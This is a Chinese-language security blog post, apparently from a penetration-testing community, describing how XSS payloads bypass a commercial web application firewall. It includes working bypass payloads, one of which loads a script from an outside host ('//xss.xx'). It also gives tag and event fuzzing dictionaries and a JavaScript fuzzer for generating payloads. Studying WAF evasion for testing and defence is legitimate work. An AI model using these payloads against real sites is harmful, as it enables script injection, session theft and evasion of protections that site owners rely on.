






# 某xin_waf测试 - 先知社区

某xin\_waf测试

- - -

### 介绍

- - -

xxx网站卫士是xxx旗下为网站提供免费加速和防护的云服务平台。为站长免费提供了网站加速,智能高防DNS,防DDOS,防CC,防黑客和网站永久在线等服务，是百万站长的共同...

### 前言

- - -

本来不认识xxx网站卫士的，那天chabug群，有位师傅发了张图，他去云锁官网测试SQL绕过，结果发现云锁官网用了`qianxin-waf`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191123112943-7d9f5322-0da1-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20191123112943-7dbbe532-0da1-1.png)

## 测试

- - -

既然来了测试下，先从容易满足的点出发，我就假设有个参数`?xss=`后面不用考虑闭合之类的，毕竟实战遇到的点各有不同。

首先来看个鸡肋而有趣的例子在推特看到的，作者`@sOmd3v @Ow4ys`

`<x oncopy=y=prompt,y``>z` `<x onpaste=y=prompt,y``>z`

[](https://xzfile.aliyuncs.com/media/upload/picture/20191123112943-7dc5ff4a-0da1-1.png)

`oncopy 事件`在用户拷贝元素上的内容时触发(反引号可以替换为括号)，所以触发的方法是按下 `CTRL + C`

`onpaste 事件`在用户向元素中粘贴文本时触发，所以触发的方法是按下 `CTRL + V`

[](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7dd25db2-0da1-1.png)

再来看一个`<x oncut=y=prompt,y``>z`这个例子触发是`CTRL + X`以上3个例子就是`复制粘贴剪切` ━━∑(￣□￣\*|||━━

比较实用的`onmouseover事件`被拦截了，还有onmousedown，onmouseup(这两个需点击字符z)...等on事件感兴趣可以自己查看手册测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7ddc4598-0da1-1.png)

## 更多payload

- - -

说实话，我在测这个waf时，过程很顺利，可能是我测过几个waf的原因，感觉对xss检测不是很严，可能是我测试的环境`太乐观了`，毕竟实战各种`鸡肋环境`，但是我发现对于HTML5新出的几个标签属性还是没过滤的，还有少数waf，on事件没过滤全，可能有些on事件属于比较鸡肋的原因。

Bypass payload:

```plain
<details open ontoggle=[1].find(alert)>
<select autofocus onfocus=[2].find(alert)>
<input autofocus onfocus=s=createElement("scriPt");body.appendChild(s);s.src="//xss.xx/1te">
```

## fuzz字典

- - -

为什么我很快能得到Bypass payload呢，因为我自己有收集和构造属于自己的字典，下面我大概讲解下自己的思路。

[](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7de1bf82-0da1-1.png)

(一个xss的基本结构)

#### \[TAG\]标签

- - -

标签方便也很简单，就多关注HTML新出了那些标签。

```plain
a
abbr
acronym
address
applet
area
article
aside
audio
b
base
basefont
bdi
bdo
big
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
datalist
dd
del
details
dfn
dialog
dir
div
dl
dt
em
embed
fieldset
figcaption
figure
font
footer
form
frame
frameset
h1 to h6
head
header
hr
html
i
iframe
img
input
ins
kbd
keygen
label
legend
li
link
map
mark
menu
meta
meter
nav
noframes
noscript
object
ol
optgroup
option
output
p
param
pre
progress
q
rp
rt
ruby
s
samp
script
section
select
small
source
span
strike
strong
style
sub
summary
sup
table
tbody
td
textarea
tfoot
th
thead
time
title
tr
track
tt
u
ul
var
video
wbr
```

#### \[EVENT\]事件

- - -

on事件，可以自己去查查文档，都有作用，以及利用条件。

```plain
onafterprint
onbeforeprint
onbeforeunload
onerror
onhaschange
onload
onmessage
onoffline
ononline
onpagehide
onpageshow
onpopstate
onredo
onresize
onstorage
onundo
onunload
onblur
onchange
oncontextmenu
onfocus
onformchange
onforminput
oninput
oninvalid
onreset
onselect
onsubmit
onkeydown
onkeypress
onkeyup
onclick
ondblclick
ondrag
ondragend
ondragenter
ondragleave
ondragover
ondragstart
ondrop
onmousedown
onmousemove
onmouseout
onmouseover
onmouseup
onmousewheel
onscroll
onabort
oncanplay
oncanplaythrough
ondurationchange
onemptied
onended
onerror
onloadeddata
onloadedmetadata
onloadstart
onpause
onplay
onplaying
onprogress
onratechange
onreadystatechange
onseeked
onseeking
onstalled
onsuspend
ontimeupdate
onvolumechange
onwaiting
```

#### \[SAVE\_PAYLOAD\]可执行代码

- - -

这个看自己收集和构造的，编码拆分组合拼接各种骚操作都可以。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191117223455-6c4c1b40-0947-1.png)

#### 构造payload

- - -

有了上面的准备，我们可以构造出大量xss\_payload。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7df5824c-0da1-1.png)

也可以利用key师傅这个js脚本，优点很明显能直接弹框的，脚本自己修改下就行。

```plain
var i,j,k,xss,f=0;
var ons = ["onload","onerror"];
var labs = ["a","b","q","br","dd","dl","dt","h1","del","abbr","video","base","audio","details"];
var hexs= ["%09","%00","%0d","%0a"];
for(i=0;i<labs.length;i++){
    for(j=0;j<hexs.length;j++){
        for(k=0;k<ons.length;k++){
            xss = f+'<'+labs[i]+hexs[j]+ons[k]+"=alert("+f+") src=a>a";
            var body = document.getElementsByTagName("body");
            var div = document.createElement("div");
            div.innerHTML = f+"<iframe src=\"http://127.0.0.1/index.php?fuzz="+xss+"\"></iframe>";
            document.body.appendChild(div);
            f = f+1;
        }
    }
}
```

其他脚本可以去Github寻找，这样收集构造出属于自己的xss\_payload.txt 测试时直接fuzz看结果，再根据结果进一步fuzz。

## 后记

- - -

大家平时可以去推特逛逛，HackerOne精彩xss文章等，收集扩展逐步完善自己的字典。
